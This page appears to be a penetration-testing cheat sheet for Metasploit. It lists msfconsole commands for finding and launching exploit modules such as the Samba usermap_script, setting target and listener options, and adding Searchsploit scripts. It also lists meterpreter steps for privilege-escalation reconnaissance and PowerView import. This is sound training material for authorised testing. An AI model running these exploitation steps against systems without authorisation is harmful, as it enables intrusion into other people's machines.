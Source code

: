 ```yaml
---
title: "Metasploit"
date: 2025-7-25
tags: ["Exploitation", "Post-Exploitation", "Searchsploit", "Metasploit", "Vulnerability Scanning", "Exploit", "Meterpreter", "Windows", "Msfconsole"]
---
```


{{< tab set1 tab1 >}}msfconsole{{< /tab >}}
{{< tab set1 tab2 >}}meterpreter{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### Start Msfconsole

```console
msfconsole -q
```

#### General

```console
# Return to previous page
back
```

```console
# Upgrade session
sessions -u
```

```console
# Quit
exit
```

#### Search Exploit

```console
search <KEYWORD>
```

```console {class="sample-code"}
search samba
```

```console
use <NUM>
```

```console {class="sample-code"}
use 15
```

```console
# Choose by full path
use <MODULE_PATH>
```

```console {class="sample-code"}
use exploit/multi/samba/usermap_script
```

```console
# Show exploit settings
options
```

```console
# Set option, e.g.
set rhosts <TARGET>
```

```console
set lhost <LOCAL_IP>
```

```console
set lport <LOCAL_PORT>
```

```console
# Run exploit
run 
```

<small>*Hint: If you see a session is opened, but sit at an empty line, just type your cmd and press enter*</small>

#### Add Scripts from Searchsploit

```console
mkdir -p ~/.msf4/modules/exploits/linux
```

```console
mkdir -p ~/.msf4/modules/exploits/windows
```

```console
# For example a linux script
cp <SCRIPT> ~/.msf4/modules/exploits/linux
```

```console {class="sample-code"}
cp 12345.rb ~/.msf4/modules/exploits/linux
```

```console
# Inside msfconsole
reload_all
```

```console
# Search
search <SCRIPT>
```

#### Fix No Search Result

```console
# Inside msfconsole, check db status
db_status
```

```console
sudo service postgresql start
```

```console
update-rc.d postgresql enable
```

```console
sudo msfdb init
```

```console
# Go back to msfconsole and check again
db_status
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### General

```console
# Return from meterpreter
background
```

#### Use Exploit

```console
# Quick look of potential privesc (Windows)
# Need to return from meterpreter
use post/multi/recon/local_exploit_suggester
```

```console
# Select opened session
set session 1
```

```console
# Show exploit settings
options
```

```console
# Set option, e.g.
set rhosts <TARGET>
```

```console
# Run exploit
run 
```

#### Use Powershell Module

```console
# Use powershell module
use powershell
```

```console
# Import module
powershell_import /usr/share/windows-resources/powersploit/Recon/PowerView.ps1
```

```console
# Spawn powershell session
powershell_shell 
```

{{< /tabcontent >}}
